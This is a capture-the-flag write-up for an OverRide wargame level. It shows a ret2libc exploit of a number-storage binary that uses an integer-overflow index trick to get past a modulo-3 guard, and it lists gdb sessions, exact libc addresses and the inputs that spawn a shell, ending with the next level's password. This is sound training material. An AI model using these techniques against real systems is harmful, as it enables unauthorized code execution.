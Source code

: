 Running this binary, we get : 

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

We can store one number at a time in a given index. There is a security that prevents using any index divisible by 3 though, so index 0, 3, 6, etc..., are unwritable. Also, we can't access environment variables, so we won't be able to store a payload there. The most obvious thing to do is a ret2libc, where we overflow the stack return address with another function, in our case a call to system with /bin/sh as argument.

First, we need to know where we can overwrite the return address. First of all, let's find it by setting a breakpoint at the end of our program and looking at eip :

	(gdb) b *main+718
	Breakpoint 3 at 0x80489f1
	[...]
	Breakpoint 3, 0x080489f1 in main ()
	(gdb) i r
	[...]
	eip            0x80489f1	0x80489f1 <main+718> <-- not this one
	[...]
	(gdb) si
	0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
	(gdb) i r
	[...]
	eip            0xf7e45513	0xf7e45513 <__libc_start_main+243>
	[...]

The second one is the one we want : 0xf7e45513

We can also have a look at the stack by using an easily identifiable number, for instance 238 <=> 0xee (at the index 1 because we can't access 0)

	Input command: store
	Number: 238
	Index: 1

	Breakpoint 3, 0x080486d5 in store_number ()
	(gdb) x/100x $esp
	0xffffd4f0:	0x08048add	0xffffd544	0x00000000	0xf7e2b6c0
	0xffffd500:	0xffffd708	0xf7ff0a50	0x000000ee	0x00000001
	0xffffd510:	0x00000000	0xffffdfdc	0xffffd708	0x080488ef
	0xffffd520:	0xffffd544	0x00000014	0xf7fcfac0	0xf7fdc714
	0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
	0xffffd540:	0x00000000	0x00000000	0x000000ee	0x00000000 <------ here
	0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000

Lets find its address :

	(gdb) x 0xffffd548
	0xffffd548:	0x000000ee

If we keep going a bit further, we can find the eip return value we saw earlier :

	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6d0:	0x00000000	0x00000001	0x726f7473	0x00000065
	0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x4cfa9200
	0xffffd6f0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
	0xffffd700:	0x00000000	0x00000000	0x00000000	0xf7e45513 <----- return address
	0xffffd710:	0x00000001	0xffffd7a4	0xffffd7ac	0xf7fd3000
	0xffffd720:	0x00000000	0xffffd71c	0xffffd7ac	0x00000000
	0xffffd730:	0x080482b8	0xf7fceff4	0x00000000	0x00000000
	0xffffd740:	0x00000000	0xfe293c18	0xc92eb808	0x00000000
	0xffffd750:	0x00000000	0x00000000	0x00000001	0x08048510
	0xffffd760:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
	0xffffd770:	0x00000001	0x08048510	0x00000000	0x08048531
	0xffffd780:	0x08048723	0x00000001	0xffffd7a4	0x08048a00
	0xffffd790:	0x08048a70	0xf7feb620	0xffffd79c	0xf7ffd918
	0xffffd7a0:	0x00000001	0xffffd8cc	0x00000000	0xffffd8e8
	0xffffd7b0:	0xffffd8f8	0xffffd90c	0xffffd92f	0xffffd942
	0xffffd7c0:	0xffffd94f	0xffffde70	0xffffde7c	0xffffdec9
	0xffffd7d0:	0xffffdee0	0xffffdeef	0xffffdf07	0xffffdf18
	0xffffd7e0:	0xffffdf21	0xffffdf3a	0xffffdf42	0xffffdf54
	0xffffd7f0:	0xffffdf64	0xffffdf9a	0xffffdfba	0x00000000
	0xffffd800:	0x00000020	0xf7fdb430	0x00000021	0xf7fdb000

Again, we get its address :

	(gdb) x 0xffffd70c
	0xffffd70c:	0xf7e45513

We stored the number ee at index 1, So we can know where is located the return address with a simple substraction : 0x70c - 0x548 = 0x1c4, 452 in decimal. One index can store 4 bytes, so if we divide it by 4 we get index 113. Let's keep in mind that we used index 1 instead of 0, so we need to add 1 to the result, we get the index 114.

Let's try to store something here to see what happens :

	Input command: store
	Number: 1111
	Index: 114
	*** ERROR! ***
	This index is reserved for wil!
	*** ERROR! ***
	Failed to do store command

Of course 114 % 3 = 0, so we can't write in there. However, there is one specific line in store_number that is interesting :

   0x080486c5 <+149>:	shl    $0x2,%eax

Basically, to go from indexes to bytes the binary will byteshift to the left twice (equivalent to multiply by 4).

114 in binary is 1110010, the 32bit repr is 00000000000000000000000001110010

If we byteshift left twice, we get : 00000000000000000000000111001000 (456 in dec, obviously).
But here's the thing : The 2 most significant bytes are removed. That means whatever is stored in them won't have an impact on the final result. Let's take our 114 in 32-bit repr, and add a 1 at the second MSB (to avoid negative numbers). We now get :

	01000000000000000000000001110010

This is equal to 1073741938 in decimal. That means byteshifting twice this number will yield the same result as byteshifting twice 114. By passing this number, we can access the index 114 (note that this number is not divisible by 3 itself, otherwise we still could not access index 114). Let's check it :

	Input command: store
	Number: 1234 
	Index: 1073741938
	Completed store command successfully
	Input command: read
	Index: 114
	Number at data[114] is 1234
	Completed read command successfully
	Input command: quit
	Segmentation fault (core dumped)

	level07@OverRide:~$ dmesg
	[...]
	[24161.934779] level07[3134]: segfault at 4d2 ip 00000000000004d2 sp 00000000ffffd730 error 14 in level07[8048000+1000]

0x4d2 <=> 1234, this way we can sucessfully store anything we want at the index 114.

Now, we just have to find the adresses of system, "/bin/sh", and exit (to gracefully exit the program, because segfaults can be detected).

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

	(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

	(gdb) p exit
	$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

	(gdb) info proc map
	process 1936
	Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
	(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
	0xf7f897ec
	1 pattern found.

Now we need to convert these addresses to decimal and store them using the binary :

system :    0xf7e6aed0 <=> 4159090384

exit :      0xf7e5eb70 <=> 4159040368

/bin/sh :   0xf7f897ec <=> 4160264172

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: store
	Number: 4159090384
	Index: 1073741938
	Completed store command successfully
	Input command: store
	Number: 4159040368
	Index: 115
	Completed store command successfully
	Input command: store
	Number: 4160264172
	Index: 116
	Completed store command successfully
	Input command: quit
	$ cd ../level08
	$ cat .pass
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
